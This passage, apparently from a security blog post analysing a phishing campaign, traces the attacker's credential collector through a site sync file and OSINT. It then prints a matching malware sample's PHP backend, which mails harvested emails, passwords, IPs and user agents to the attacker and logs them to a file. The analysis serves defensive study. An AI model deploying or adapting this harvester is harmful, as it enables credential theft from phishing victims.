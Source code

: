 ```xml
    <file name="phpmailer.rar" server="example_company_two.com.br/public_html’" local="3515351966" remote="7810389616" Dst="-1"/>
</dwsyne>
```

This seems to be a sync file of the company that designed the website since it stores information about several websites that do not correspond to the one in which the file was stored. Nonetheless, there are some curious files, including the `phpmailer.rar`. Without searching for long, I discovered that the PHPmailer in question is a boilerplate and old one, [PHP Mailer by codeworxtech](https://codeworxtech.com/). The other files were simple validators and other files that are part of the PHPmailer. So, no luck on getting the `def.php` file. But we now know that most probably, the attacker was able to compromise this remote website, upload both the phpmailer and `def.php`, using it to receive the phishing payloads.

## Some OSINT and Closing

When looking at the source code of the `htm` file, we can find some *breadcrumbs* such as typos and variable names that, most probably, are unique to this payload. More concretely, let us take the following hints:
- Regarding the AJAX payload, we know that, typically, the object keys are hardcoded for the server to be able to parse them; in this case, the variables `ai` and `pr`.
    -  In PHP, given that the AJAX makes a POST request, probably the received using `$_POST` feature. So, most probably the `def.php` has, somewhere, a call to `$_POST['ai']` and `$_POST['pr']`.
- Some error messages have typos, such as `Password field is empty.!`

Doing some code searches on GitHub, we quickly found several possible correspondence results. Taking into account all the information that we collected so far, the most similar/supicious one was found in a GitHub account with a repository with several WordPress (*PHP*) malware samples: [stefanpejcic/wordpress-malware](https://github.com/stefanpejcic/wordpress-malware), more concretely (WordPress-malware/11.02.2021/)[https://github.com/stefanpejcic/wordpress-malware/tree/master/11.02.2021]. 

Taking a look into the `next.php` [file](https://github.com/stefanpejcic/wordpress-malware/blob/master/11.02.2021/next.php):

```php
<?PHP
include 'email.php';
$email = trim($_POST['ai']);
$password = trim($_POST['pr']);
if($email != null && $password != null){
    $ip = getenv("REMOTE_ADDR");
    $hostname = gethostbyaddr($ip);
    $useragent = $_SERVER['HTTP_USER_AGENT'];
    $message .= "|----------| Xls |--------------|\n";
    
    $message .= "Online ID            : ".$email."\n";
    $message .= "Passcode              : ".$password."\n";
    $message .= "|--------------- I N F O | I P -------------------|\n";
    $message .= "|Client IP: ".$ip."\n";
    $message .= "|--- http://www.geoiptool.com/?IP=$ip ----\n";
    $message .= "User Agent : ".$useragent."\n";
    $message .= "|----------- fudsender(dot)com --------------|\n";
    $send = $Receive_email;
    $subject = "Login : $ip";
    mail($send, $subject, $message);   
    $signal = 'ok';
    $msg = 'InValid Credentials';
    $fp = fopen("apas.txt", "a");
    fwrite($fp,$message);
    
    // $praga=rand();
    // $praga=md5($praga);
}
else{
    $signal = 'bad';
```

[^1]: `base64string==` is a dummy placeholder just to keep the *destination* URL hidden.